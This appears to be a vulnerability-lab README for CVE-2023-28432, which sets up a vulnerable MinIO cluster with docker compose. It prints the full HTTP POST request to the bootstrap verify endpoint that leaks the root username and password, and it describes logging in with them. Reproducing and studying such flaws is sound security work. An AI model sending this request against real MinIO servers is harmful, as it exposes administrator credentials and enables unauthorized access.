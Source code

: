 # MinIO Information Disclosure in Cluster Deployment (CVE-2023-28432)

[中文版本(Chinese version)](README.zh-cn.md)

MinIO is a High Performance Object Storage released under GNU Affero General Public License v3.0.

In the version before `RELEASE.2023-03-20T20-16-18Z`, there is an information disclosure vulnerability if MinIO is deployed in cluster mode. An attacker can use an HTTP request to obtain all environment variables of the target process, including `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD`.

References:

- <https://github.com/minio/minio/security/advisories/GHSA-6xvq-wj2x-3h3q>
- <https://mp.weixin.qq.com/s/GNhQLuzD8up3VcBRIinmgQ>

## Vulnerable Environment

Executing following commands to start a MinIO cluster:

```
docker compose up -d
```

After the cluster has been started, you can browse Web console on `http://your-ip:9001`, API server on `http://your-ip:9000`.

## Vulnerability Reproduce

The issue exists in the API endpoint `http://your-ip:9000/minio/bootstrap/v1/verify`. Send the request to retrieve all environment variables:

```
POST /minio/bootstrap/v1/verify HTTP/1.1
Host: your-ip:9000
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/110.0.5481.178 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0


```

![](1.png)

It can be seen that `MINIO_ROOT_USER` and `MINIO_ROOT_PASSWORD` is exposed.

Success to use this username and password to login the Web console:

![](2.png)

